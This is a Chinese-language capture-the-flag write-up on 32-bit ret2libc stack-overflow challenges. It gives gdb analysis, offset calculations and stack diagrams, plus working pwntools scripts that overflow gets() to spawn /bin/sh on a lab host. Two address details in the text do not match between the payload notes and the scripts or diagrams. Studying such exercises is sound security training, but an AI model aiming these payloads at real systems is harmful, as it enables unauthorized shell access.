# reb2libc基础练习

## ret2libc1

>静态分析

**checksec ret2libc1**

栈不可执行

**strings ret2libc1 | grep system**

程序中存在system函数

**strings ret2libc1 | grep /bin/sh**

存在/bin/sh字符串

>动态分析

**info func**


**disass main**

调用gets，可以利用溢出

**offset计算**


offset=ebp-esp-0x1c+4=112

**disass secure**


**vmmap 0x8048460**

system函数处可执行

**payload构造思路**

*利用main调用的gets函数制造溢出漏洞，劫持ret指向call system地址，同时覆盖ret+4地址处为/bin/sh字符串，实现system('/bin/sh')*

**查询需要的地址**


`0x08048720 : /bin/sh`

`0x08048611 <+68>:    call   0x8048460 <system@plt>`


**payload**=b'A'*offset+p32(0x08048611)+p32(0x08048720)

**PoC**

```
from pwn import *

HOST='172.16.31.144'
PORT=32773

p=remote(HOST,PORT)
offset=112
payload=b'A'*offset+p32(0x08048611)+p32(0x08048720)

p.sendline(payload)
p.interactive()
```


## ret2libc2

>静态分析

**checksec ret2libc2**

开启了栈不可执行

**strings ret2libc2 | grep system**

存在system函数

**strings ret2libc2 | grep /bin/**

不存在/bin/sh或者/bin/bash字符串

>动态分析

**info file**

`0x0804a040 - 0x0804a0e4 is .bss`

**info func**


**disass main**

调用了gets函数，存在溢出漏洞

**offset计算**

offset=112

**disass secure**

调用system函数

**vmmap 0x08048641**

可执行

**vmmap 0x0804a040**

.bss段可写

**x/150s 0x0804a040**

找到空的位置防止影响其他数据
buf_addr=0x804a048

**利用思路**

*第一次利用gets函数一次覆劫持ret到gets函数处实现手动调用gets函数实现在程序的.bss段写入/bin/sh字符串然后返回到call system处执行system(/bin/sh)*

### 区分执行程序的call 指令和手动调用函数的区别

*正常调用（call 指令）—— CPU 帮你干了什么？*

当你执行 call gets 时，CPU 硬件自动完成了以下操作：

- 压入返回地址	push eip_after_call（ESP -= 4）

- 跳转	eip = gets

```
; 调用者代码
push arg1          ; 压参数（你手动做）
push arg2          ; 压参数（你手动做）
call gets          ; 压返回地址（CPU自动做）+ 跳转
add esp, 0x8       ; 清理参数（调用者清理，或被调用者清理，取决于调用约定）
```

*手动调用（直接 jmp 到函数地址）—— 你必须自己做什么？*

当你劫持 EIP 到 gets@plt（或 gets 在 libc 中的地址）时，CPU 不会压任何东西。必须手动模拟 call 的全部行为。

你必须手动做的事：

- 压参数	函数需要参数（如 gets(buf) 需要 buf 地址）	push buf_addr

- 压返回地址	函数执行完 ret 时需要知道跳回哪里	push next_rip（你希望的返回点）

*对比*

>场景一：正常调用（call gets）

```python
# 栈布局
[ buf_addr ]      # 参数（ESP 指向这里）
[ return_addr ]   # call 指令自动压入（0x08048455）
```
你只需要把 buf_addr 放在栈顶，然后跳转到 call gets 的地址（例如 0x08048450），CPU 会自动压入返回地址。

>场景二：手动调用（直接跳转到 gets@plt）

```python
# 你必须自己布置的栈
[ buf_addr ]      # 参数（gets 的第一个参数）
[ system_addr ]   # 伪造的返回地址（gets 执行 ret 后跳转到 system_addr）
```

>*关键差异*

>正常调用：返回地址是 call 指令压入的，你无法控制（除非你同时修改栈）。

>手动调用：返回地址是 你自己布置在栈上的，完全可控。

### 
**栈布局**
<+68>:    call   0x8048490 <system@plt>
```
|
|       112
|
ebp     4
|
ret             ——————>   0x8048460  <gets@plt>
|                                       
0x08048641:call <system@plt>            
|
0x804a048[ buf_addr ] 
0x0804a040
```

**payload**=b'A'*offset+p32(0x8048460)+p32(0x08048641)+p32(0x0804a040+0x100)

**PoC**
```
from pwn import *

HOST='172.16.31.144'
PORT=32771

p=remote(HOST,PORT)

offset=112
payload=b'A'*offset+p32(0x8048460)+p32(0x08048641)+p32(0x0804a048)

p.sendline(payload)
p.send(b'/bin/sh')
p.interactive()

```


## ret2libc2+

>静态分析

**checksec challenge**

栈不可执行

**strings challenge | grep system**

没有call system

**strings challenge | grep /bin/sh**

没有/bin/sh字符串

>动态分析

**info file**


**vmmap 0x0804c040**

.bss可写

**disass vuln**

gets函数存在缓冲区溢出漏洞

**计算offset**

offset=100+4=104

**查找需要的地址**

bss_addr=0x0804c048

gets_addr=0x80490e0

system_addr=0x8049110

main_addr=0x0804961a 

### 复杂的思路

>第一次溢出已经破坏栈平衡，需要再次计算溢出点

**利用思路**

>利用main函数调用的gets函数制造缓冲区溢出劫持ret跳转到<gets@plt>入口，同时在栈上设置好gets函数的参数和返回地址，将参数设置为.bss段上的空闲位置用于写入字符串/bin/sh
>
>由于没有可以直接利用的call system，因此需要跳转到<system@plt>入口，需要手动设置函数的参数和返回地址因此还需要一下缓冲区溢出来实现。
>
>因此设置gets函数的返回地址为main函数的起始位置，让main函数在再调用一次gets函数再来一次缓冲区溢出
>
>这次溢出要劫持ret为<system@plt>入口地址，然后要设置参数为刚刚写入/bin/sh字符串的地址


**栈布局**

```
1buf
|
|       100
|
ebp     4
|
ret     ————>   gets_addr=0x80490e0
|                   
gets_ret ————>  vuln_0x080495ae
|
gets_arg ————>  bss_addr=0x0804c048

```
```

2buf
|
|
|

1buf
|
|       104
|
ret     ————>   system_addr=0x8049110
|
system_ret ——>  b'AAAA'
|
system_arg ——>  bss_addr=0x0804c048
```

**payload1**=b'A'*offset+p32(0x80490e0)+p32(0x0804961a)+p32(0x0804c048)

**payload2**=b'A'*offset+p32(0x8049110)+b'AAAA'+p32(0x0804c048)


**PoC**
```
from pwn import *

HOST='172.16.31.144'
PORT=32779

p=remote(HOST,PORT)

offset=104

payload1=b'A'*offset+p32(0x80490e0)+p32(0x0804961a)+p32(0x0804c048)
payload2=b'A'*offset+p32(0x8049110)+b'AAAA'+p32(0x0804c048)

p.sendline(payload1)
p.send(b'/bin/sh')
p.sendline(payload2)
p.interactive()


```

**本地调试**
```
from pwn import *

p=process('./challenge')
elf=ELF('challenge')
context.terminal=['tmux','splitw','-h']
context.log_level='debug'

gdb.attach(p,gdbscript='b *main\n')

offset=104

payload1=b'A'*offset+p32(0x80490e0)+p32(0x0804961a)+p32(0x0804c048)
payload2=b'A'*offset+p32(0x8049110)+b'AAAA'+p32(0x0804c048)

p.sendline(payload1)
p.send(b'/bin/sh')
p.sendline(payload2)
p.interactive()

```
### 取巧的思路

**栈布局**

```
buf
|
|       100
|
ebp     4
|
ret     ————>   gets_addr=0x80490e0
|                   
gets_ret ————>  system_addr=0x8049110
|
gets_arg ————>  bss_addr=0x0804c048     <————   system_ret
|
system_arg  ————>  bss_addr=0x0804c048  <————   system_arg 

```

**PoC**

```
from pwn import *

HOST='172.16.31.144'
PORT=32779

p=remote(HOST,PORT)

offset=104

payload=b'A'*offset+p32(0x80490e0)+p32(0x8049110)+p32(0x0804c048)+p32(0x0804c048)

p.sendline(payload)
p.send(b'/bin/sh\n')

p.interactive()
```

### 正经的思路

**栈布局**

```
buf
|
|       100
|
ebp     4
|
ret      ————>  gets_addr=0x80490e0
|                   
gets_ret ————>  pop_ret_addr=0x08049022
|
gets_arg ————>  bss_addr=0x0804c048     <————   pop_arg
|
pop_ret  ————>  system_addr=0x08049110    
|
system_ret ————> 不重要b'AAAA'
|
system_arg ————> bss_addr=0x0804c048
```

**寻找gadget**

0x08049022 : pop ebx ; ret

**payload**=b'A'*offset+p32(0x80490e0)+p32(0x08049022)+p32(0x0804c048)+p32(0x08049110)+p32(0x0804c048)+p32(0x0804c048)

**PoC**
```
from pwn import *

HOST='172.16.31.144'
PORT=32779

p=remote(HOST,PORT)

offset=104

payload=b'A'*offset+p32(0x80490e0)+p32(0x08049022)+p32(0x0804c048)+p32(0x08049110)+p32(0x0804c048)+p32(0x0804c048)

p.sendline(payload)
p.send(b'/bin/sh\n')

p.interactive()
```


